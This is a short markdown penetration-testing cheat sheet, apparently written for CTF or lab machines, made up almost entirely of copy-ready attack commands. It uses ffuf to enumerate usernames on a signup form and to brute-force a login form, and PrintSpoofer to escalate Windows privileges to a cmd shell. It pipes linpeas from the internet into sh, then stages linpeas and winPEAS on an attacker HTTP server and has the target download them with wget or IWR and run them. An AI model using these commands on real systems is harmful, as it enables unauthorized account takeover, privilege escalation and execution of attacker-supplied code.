 - ###  Fuzzing Username Directory
```
ffuf -w /usr/share/wordlists/dirb/big.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.62.169/customers/signup -mr "username already exists" 
```

- ###  Fuzzing Password Directory
```
ffuf -w ./your_valid_usernames.txt:W1,./your-wordlists:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.62.169/customers/login -fc 200 
```


## PrintSpoofer
- ###  Windows Priviledge Escalation
Software .exe -> https://github.com/dievus/printspoofer
###### Example :
```
PrintSpoofer.exe -i -c cmd 
```
## Peass-ng
- [Link Repo PEASS](https://github.com/carlospolop/PEASS-ng)
- [Install PEASS](https://github.com/carlospolop/PEASS-ng/releases/)
### 𝚰. Linpeas
- ### Linpeas with curl 
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh  
```
- ### Linpeas run from Attacking Machine to Target Machine
First Install Linpeas.sh File in [Install PEASS](https://github.com/carlospolop/PEASS-ng/releases/)
After that, open port in Attacking Machine so the Target Machine can Download an Run This file.
```
python3 -m http.server 9999   
```
Install File from Attacking Machine to the Target Machine
###### Example :
wget http://[IP Local]:9999/linpeas.sh   
```
wget http://10.10.10.11:9999/linpeas.sh   
```
From The Target Machine give file execute permission and run the file
```
chmod +x linpeas.sh   
```
```
./linpeas.sh   
```
### 𝚰𝚰. Winpeas
- ### Winpeasx64 Run Locally Powershell
First install Winpeasx64.exe [Install PEASS](https://github.com/carlospolop/PEASS-ng/releases/)
After that, open port in Attacking Machine so the Target Machine can Download an Run This file.
```
python3 -m http.server 9999   
```
Install File from Attacking Machine to the Target Machine
###### Example :
IWR http://[IP Local]:9999/winPEASx64.exe -OutFile winPEASx64.exe
```
IWR http://10.10.10.11:9999/winPEASx64.exe -OutFile winPEASx64.exe
```
Run the file
```
.\winPEASx64.exe
```